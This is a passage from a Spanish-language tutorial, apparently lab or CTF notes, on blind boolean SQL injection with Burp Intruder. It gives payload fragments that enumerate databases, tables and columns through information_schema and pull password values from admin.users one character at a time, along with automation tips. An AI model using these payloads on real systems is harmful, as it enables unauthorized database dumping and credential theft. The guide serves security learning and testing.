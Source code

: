 - Cuando el valor ASCII **coincide**, la página responde **igual que una válida** (por ejemplo, status 200 con contenido similar).
- Cuando no coincide, hay un cambio visible (menor longitud, error, redirección, etc.).

💡 Usa la columna "Length" como indicador principal. Marca manualmente cuál valor da `true`, tradúcelo a `chr(X)`, y guarda esa letra.

---

## 🔁 Para iterar posiciones y elementos

Para seguir con la **segunda letra** del nombre o dato:

    ... SUBSTRING(...,2,1))=§X§ -- -

Para la **segunda base de datos**:

    ... schemata LIMIT 1,1 ...

Para la **segunda tabla** de la base `admin`:

    ... FROM information_schema.tables WHERE table_schema='admin' LIMIT 1,1 ...

Para la **segunda columna** de la tabla `users`:

    ... FROM information_schema.columns WHERE table_schema='admin' AND table_name='users' LIMIT 1,1 ...

Para la **segunda fila** (registro) de datos en la columna `password`:

    ... FROM admin.users LIMIT 1,1 ...

---

## 📌 Consejos útiles

- Guarda cada letra extraída y reconstruye el nombre o dato completo paso a paso.
- Usa funciones como `BURP -> Intruder -> Cluster bomb` para automatizar variaciones de `X` (ASCII) y `pos` (posición).
- Para acelerar, puedes usar comparaciones binarias (`>`, `<`) y hacer búsquedas binarias.

---

## ✅ Resumen del proceso

| Acción                | Modifica                                 |
|-----------------------|-----------------------------------------|
| Otra base             | `LIMIT N,1` en `information_schema.schemata`        |
| Otra letra            | `SUBSTRING(..., pos, 1)`                 |
| Otra tabla            | `FROM information_schema.tables WHERE table_schema='NOMBRE' LIMIT N,1`  |
| Otra columna          | `FROM information_schema.columns WHERE table_schema='NOMBRE' AND table_name='TABLA' LIMIT N,1` |
| Otro dato en columna  | `FROM admin.users LIMIT N,1` para fila, y `SUBSTRING(..., pos, 1)` para letra |

---
